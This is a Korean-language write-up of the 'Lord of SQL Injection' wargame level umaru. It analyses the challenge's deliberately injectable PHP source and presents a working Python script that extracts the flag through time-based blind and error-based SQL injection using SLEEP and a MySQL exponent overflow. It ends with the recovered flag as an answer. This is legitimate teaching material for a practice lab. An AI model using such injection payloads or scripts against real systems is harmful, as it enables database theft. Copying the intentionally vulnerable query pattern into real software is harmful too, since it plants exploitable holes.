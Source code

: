 # Lord of SQL Injection No.25 - umaru

## 문제 출제 의도

출력되는 SQL문 없이 PHP문을 해석하여 `flag`가 초기화되지 않게 Error Based SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

umaru 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```
-----

```php
  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }
```
* 사용자 정의 함수 reset_flag를 선언한다.

* reset_flag는 prob_umaru 테이블에 사용자 세션 아이디 id, 새로운 랜덤 값 flag 레코드를 추가 또는 초기화 하는 함수이다.

```php
    if(!$_GET[flag]){ highlight_file(__FILE__); exit; }
```
* flag를 GET방식으로 받으며, 받은 값이 없거나 '0'이면 파일 내용을 출력되고 문제 풀이에 실패한다.

```php
    if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
    if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
    if(strlen($_GET[flag])>100) exit("HeHe");
```
* flag에 `prob`, `_`, `.` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, flag에 `id`, `where`, `order`, `limit`, `,` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

* 또한, flag의 길이가 100자 초과이면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
    $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

    @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
    @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

    $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
    if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

    if($realflag[flag] === $_GET[flag]) solve("umaru");
```
* `$realflag`에 기존에 `prob_umaru` 테이블의 사용자 세션 아이디를 id값으로 갖는 레코드를 배열로 저장한다.

* `prob_umaru` 테이블의 사용자 세션 아이디를 id값으로 갖는 레코드를 복사하여 임시 테이블 `prob_umaru_temp`를 생성한다.

* `prob_umaru_temp` 테이블의 `flag`값을 `$_GET['flag']`값으로 바꾼다. 이때 받은 flag가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `prob_umaru_temp` 테이블의 `flag`값이 들어있는 배열을 `$tempflag`에 저장한다.

* 기존의 테이블에 사용자 세션 아이디와 `id`가 일치하는 레코드가 없거나 `$realflag`의 `flag`값이 `$tempflag`의 `flag`값과 다르면 `reset_flag()` 함수를 작동시킨다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 기존의 `flag`값과 GET방식으로 전달받은 flag값이 정확히 같음'이다. 즉, 실제 데이터베이스에 저장된 flag를 알아내서 전달해야 한다.

## MySQL 지수 연산 최대치

MySQL에서는 e를 이용한 지수 연산이 가능하다.

예를 들어, 9e0은 9와 같고, 9e1은 90과 같다.

이때, 9의 지수 연산의 최대치는 9e307이다. 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.

또한, 연산을 통해 최대치를 초과할 때에도 ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 9e307)' 와 같이 에러가 난다.

-----

## Solution

1. PHP 오류, MySQL CASE WHEN THEN, SUBSTR FROM FOR, SLEEP, 지수 연산 최대치 오류 이용

    이 문제는 Blind SQL Injection과 Error Based SQL Injection을 결합해서 풀 수 있다.
    
    에러가 발생하면 PHP 코드가 중지되므로 `reset_flag()`가 작동되는 것을 막을 수 있다. 이를 이용하는 코드를 작성한다.

    ```python
    import urllib.request
    from urllib.parse import quote
    import time

    key = ""
    for i in range(1, 17):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
            data = "(case(substr(flag from {} for 1)) when '{}' then ((sleep(4)+2)*9e307) else 9e307*2 end)".format(
                str(i), chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=jtkacptqj14heqvtcuofma30m2")
            st = time.time()
            req = urllib.request.urlopen(re)
            print(req.readline())
            et = time.time()

            if et-st > 4:
                key += chr(j).lower()
                print (key)
                break
    print (key)
    ```

    이러한 코드를 실행하면 결과값으로 175c981d542b7d27 를 출력한다. 이는 다른 사람은 다를 수도 있다.
    이를 GET방식으로 flag의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag=175c981d542b7d27
    ```

    ![umaruclear](../images/umaruclear.png)